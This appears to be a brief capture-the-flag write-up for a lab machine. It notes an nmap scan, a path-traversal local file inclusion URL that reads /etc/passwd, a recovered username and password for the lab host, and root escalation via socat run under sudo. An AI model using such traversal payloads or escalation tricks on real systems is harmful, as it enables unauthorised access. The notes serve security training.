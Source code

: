 start with nmap

http

find lfi at `http://10.10.227.162/article?name=../../../../../../../../etc/passwd`

falconfeast:rootpassword

log in as falconfeast

socat run as sudo -->gtfobins